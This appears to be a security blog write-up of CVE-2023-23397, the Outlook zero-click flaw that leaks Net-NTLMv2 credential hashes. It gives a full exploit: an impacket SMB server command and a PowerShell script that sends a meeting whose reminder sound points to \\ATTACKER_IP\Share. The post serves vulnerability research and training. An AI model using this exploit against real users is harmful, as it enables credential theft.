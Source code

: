 ```yaml
---
layout: post
title: CVE-2023-23397 - Zero Click Net-NTLMv2 Credential Hash Leak on Outlook Client
categories: [security, cve, vulnerability]
tags: [security, cve, vulnerability, windows]
description: A comprehensive writeup that helps to understand Zero Click Net-NTLMv2 Credential Hash on Outlook Client.
---
```


### Quick Overview

Microsoft announced patch for [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397) which generally goes out usually on tuesday (Mar 14, 2023). This particular vulnerability caught my eyes due to the fact that I actively work on `Active Directory` based HackTheBox machines and this one is something similar to `Android Application Exploits` where attacker passes random url to `activities` or `services` and the outbound network connection often contains sensitive tokens attached to it. 

IIRC, I reported a similar vulnerability in 2020 which completely leaks encrypted sandbox local files including e-mail, tasks in the ProtonMail Android Client [reference](https://proton.me/blog/protonmail-security-contributors) However, it requires user interaction in the victim side of Android app.

### CVE Summary

> TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side

Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the `victim machine to Attacker controlled UNC Path` to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and `attacker controlled SMB server` actually leaks the victims `Net-NTLMv2 Credential hash` to the attacker.

![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)

### Quick Note on Net-NTLMv2 Credentials

If you're no stranger to Offensive security, You would definitely value the NTLMv2 Token. For others, [Here](https://admiralgaust.github.io/OSCP-notes/info/active-directory-theory.html) is the quick overview on NTLM Authentication used within Active Directory

### Exploit Strategy

1. Host a SMB Server with the help of impacket tools

   ```shell
   > attacker@kali $ smbserver.py Share sub_directory -smb2support
   ```

   ![CVE-2023-23397-Demo-Screenshot-1](/assets/media/htb-cve-2023-23397-demo-screenshot-1.png)

2. Create Outlook Appointment from Powershell (Attacker owned Windows Machine). You could potentially utilize below script to generate malcious appointment natively from powershell. [Source](https://github.com/ka7ana/CVE-2023-23397)

   ```powershell
   # PoC script for CVE-2023-23397, ported to PowerShell
   # Credits go to Dominic Chell at MDSec
   # See: https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

   $ol = New-Object -ComObject Outlook.Application
   $meeting = $ol.CreateItem('olAppointmentItem')
   $meeting.Subject = 'Time for a malicious meeting'
   $meeting.Body = 'Simple CVE-2023-23397 test script'
   $meeting.Location = 'Virtual'
   $meeting.ReminderSet = $True
   $meeting.Importance = 1
   $meeting.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting
   $meeting.Recipients.Add('victim@domain.com') 

   $meeting.ReminderMinutesBeforeStart = 15
   $meeting.Start = [datetime]::Now.AddMinutes(16)
   $meeting.Duration = 30
   $meeting.ReminderPlaySound = $True
   $meeting.ReminderOverrideDefault = $True

   $meeting.ReminderSoundFile = "\\ATTACKER_IP\Share\Sounds\sample.wav" 

   $meeting.Save()
   $meeting.Send()
   ```

   ![CVE-2023-23397-Demo-Screenshot-2-Powershell](/assets/media/htb-cve-2023-23397-demo-screenshot-2-windows-powershell.png)

3. When the `Victim Outlook` Parses the appointment and reminds about the appointment, SMBv2 Handshare Negotiation is initiated between `Victim Outlook Process` and Attackers SMB Server
   
   ![CVE-2023-23397-Demo-Screenshot-4-exploit-desktop-client](/assets/media/htb-cve-2023-23397-outlook-client-demo-leak-ntlm-hash.png)
   ![CVE-2023-23397-Demo-Screenshot-3-exploit-leak](/assets/media/htb-cve-2023-23397-demo-screenshot-2-exploit.png)


### Source and Reference:

1. [Microsoft Outlook Elevation of Privilege Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)
2. [OutLook NTLM Leak Demo](https://tryhackme.com/room/outlookntlmleak)


### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
